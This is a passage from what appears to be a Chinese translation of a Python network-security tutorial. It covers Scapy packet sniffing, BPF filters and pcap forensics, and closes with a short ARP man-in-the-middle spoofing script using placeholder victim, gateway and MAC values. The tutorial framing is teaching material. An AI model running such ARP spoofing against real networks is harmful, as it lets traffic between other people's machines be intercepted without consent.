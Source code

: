我们还可以从读取 pcap 文件中进行类似的数据包捕获：

```py
scapy> pkts = sniff(offline="file.pcap")
```

Scapy 支持 B**PF（Beerkeley Packet Filters）**格式，这是一种应用于网络数据包的过滤器的标准格式。这些过滤器可以应用于一组特定的数据包，也可以直接应用于活动捕获：

```py
>>> sniff (filter = "ip and host 195.221.189.155", count = 2)
<Sniffed TCP: 2 UDP: 0 ICMP: 0 Other: 0>
```

我们可以格式化 sniff()的输出，使其适应我们想要查看的数据，并按我们想要的方式对其进行排序。我们将使用**“tcp and (port 443 or port 80)”**激活过滤器，并使用**prn = lamba x: x.sprintf**来捕获 HTTP 和 HTTPS 流量。我们想以以下方式显示以下数据：

+   源 IP 和原始端口

+   目标 IP 和目标端口

+   TCP 标志或标志

+   TCP 段的有效载荷

我们可以查看`sniff`函数的参数：

```py
sniff(filter="tcp and (port 443 or port 80)",prn=lambda x:x.sprintf("%.time% %-15s,IP.src% -> %-15s,IP.dst% %IP.chksum% %03xr, IP.proto% %r,TCP.flags%"))
```

在下面的示例中，我们可以看到在捕获数据包并应用过滤器后执行 sniff 函数的结果：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/a04b900f-9919-4596-a73b-d048281311c5.png)

协议输出现在不是 TCP、UDP 等，而是十六进制值：

**006 指的是 IP 协议字段**；它指的是数据部分中使用的下一级协议。长度为 8 位。在这种情况下，十六进制（06）（00000110）= TCP 在十进制中为 6。

2、16、18、24 等是 TCP 头部的标志，以十六进制格式表示。例如，18 在二进制中是 11000，正如我们已经知道的那样，这将激活 ACK + PSH。

# 使用 scapy 进行网络取证

Scapy 还可用于从 SQL 注入攻击中执行网络取证或从服务器提取 ftp 凭据。通过使用 Python scapy 库，我们可以确定攻击者何时/在哪里/如何执行 SQL 注入。借助 Python scapy 库的帮助，我们可以分析网络数据包的 pcap 文件。

使用 scapy，我们可以分析网络数据包并检测攻击者是否正在执行 SQL 注入。

我们将能够分析、拦截和解剖网络数据包，并重用它们的内容。我们有能力操作由我们捕获或生成的 PCAP 文件中的信息。

例如，我们可以开发一个简单的 ARP MITM 攻击脚本。

您可以在**`arp_attack_mitm.py` **文件中找到以下代码：

```py
from scapy.all import *
import time

op=1 # Op code 1 for query arp
victim="<victim_ip>" # replace with the victim's IP
spoof="<ip_gateway>" # replace with the IP of the gateway
mac="<attack_mac_address>" # replace with the attacker's MAC address

arp=ARP(op=op,psrc=spoof,pdst=victim,hwdst=mac)

while True:
 send(arp)
 time.sleep(2)
```
